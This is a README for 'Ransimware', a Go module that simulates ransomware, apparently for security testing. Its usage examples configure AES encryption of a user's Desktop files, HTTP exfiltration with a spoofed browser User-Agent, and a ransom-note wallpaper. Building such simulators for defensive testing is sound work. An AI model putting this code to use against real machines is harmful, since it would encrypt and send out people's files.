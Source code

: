 # Ransimware

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

[![Go Report Card](https://goreportcard.com/badge/gitlab.com/mjwhitta/ransimware)](https://goreportcard.com/report/gitlab.com/mjwhitta/ransimware)

## What is this?

This Go module allows you to simulate ransomware.

## How to install

Open a terminal and run the following:

```
$ go get -u gitlab.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do no encryption

    // Since no exfil function is defined, the default behavior is to
    // do no exfil

    // Since no notify function is defined, the default is to create a
    // ransomnote.txt (in $HOME on Linux and the user's Desktop on
    // Windows)

    // Target the user's Desktop folder
    if home, e = os.UserHomeDir(); e == nil {
        if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
            panic(e)
        }
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "gitlab.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )

    // Notify user by changing wallpaper using the provided helper
    // function
    sim.Notify = rw.WallpaperNotify(
        "C:\\Windows\\Temp\\ransom.png",
        rw.DefaultPNG,
    )

    // Target the user's Desktop folder
    if home, e = os.UserHomeDir(); e == nil {
        if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
            panic(e)
        }
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://gitlab.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - Base64 encoding
    - DNS exfil
    - FTP exfil
    - Generic ransom note function with custom text
